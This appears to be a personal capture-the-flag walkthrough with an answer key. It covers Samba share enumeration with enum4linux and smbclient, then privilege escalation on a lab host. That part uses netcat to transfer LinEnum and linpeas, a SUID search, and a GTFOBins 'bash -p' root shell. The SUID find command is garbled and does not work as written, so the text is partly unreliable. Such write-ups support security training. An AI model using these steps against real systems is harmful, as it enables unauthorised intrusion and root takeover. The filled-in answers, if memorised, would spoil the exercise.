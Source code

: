 1.	**Qus :** Using enum4linux, how many users are there on the Samba server (<target_ip>)?

    **Ans :** `3`

2.	**Qus :** Now how many "shares" are there on the Samba server? 

    **Ans :** `4`

3.	**Qus :** Use smbclient to try to login to the shares on the Samba server (<target_ip>). What share doesn't require a password?

    **Ans :** `tbfc-santa`

4.	**Qus :** Log in to this share, what directory did ElfMcSkidy leave for Santa?
    
    **Ans :** `jingle-tunes`


### NOTE:

- see more - password spring

----

## Day 11 - The Rogue Gnome[enumeration, linEnum, linpeas, prevEsc]

target_ip : 10.10.206.228

1.  logged into target using given password of cmnatic. 

2.  **doing unnecessary things** :	copied LinEnum.sh, linpeas.sh to /tmp.  using :
- for receiver `nc -l -p 4444 > expected_file`
- for sender `nc -w 3 <receiver_ip> 4444 < expected_file`

 	and set as a executable

3.  **doing unnecessary things** : What I should have done after running LinEnum or linpeas:(which I think is not nessary for this room)

- Determining the kernel of the machine (kernel exploitation such as Dirtyc0w) 

- Locating other services running or applications installed that may be abusable (SUID & out of date software)

- Looking for automated scripts like backup scripts (exploiting crontabs)

- Credentials (user accounts, application config files..)

- Mis-configured file and directory permissions


4.  **find commands with SUID set** : 

`find / 	- sudoers-perm -u=s -type f 2>/dev/null` 
  
  logged it in suid_set.txt. Found bunch of commands in it but `bash` is enough


5.  **[GTFObins](https://gtfobins.github.io/)** :  found suid exploit for bash: `bash -p` and got root access
